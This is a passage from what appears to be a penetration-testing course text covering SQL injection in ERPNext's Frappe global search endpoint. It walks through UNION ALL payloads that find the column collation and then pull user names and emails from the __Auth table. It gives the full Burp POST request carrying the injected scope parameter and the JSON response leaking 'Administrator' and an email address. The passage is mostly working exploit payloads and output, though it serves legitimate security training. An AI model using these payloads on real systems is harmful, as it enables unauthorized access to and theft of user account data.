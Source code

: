 Like the previous payload, we have to change this query to fit into a UNION query. We want the final query to be like the one found in Listing 42.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
Listing 42 - Full query to discover collation

The highlighted part in Listing 42 will become the payload we send in Burp.

This request returns the value of "utf8mb4_general_ci" as the collation for the name column in the __global_search table. With this information, let's edit our previous payload to include the "COLLATE utf8mb4_general_ci" command. The query we are attempting to run is as follows:

SELECT name COLLATE utf8mb4_general_ci FROM __Auth;
Listing 43 - Standard query for extracting the name/email with collation

This makes the final query similar to the one found in Listing 44.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
Listing 44 - SQL injection query with collation

Sending this payload in Burp allows us to extract the name/email from the database.

```
POST / HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: None
X-Requested-With: XMLHttpRequest
Content-Length: 143
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/
Cookie: user_image=; system_user=yes; user_id=Guest; full_name=Guest; sid=Guest

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#

```
This returns the response shown in Listing 45.

{"message":[{"route":"Administrator","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"},{"route":"zeljka.k@randomdomain.com","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"}]}
Listing 45 - Extracting the users
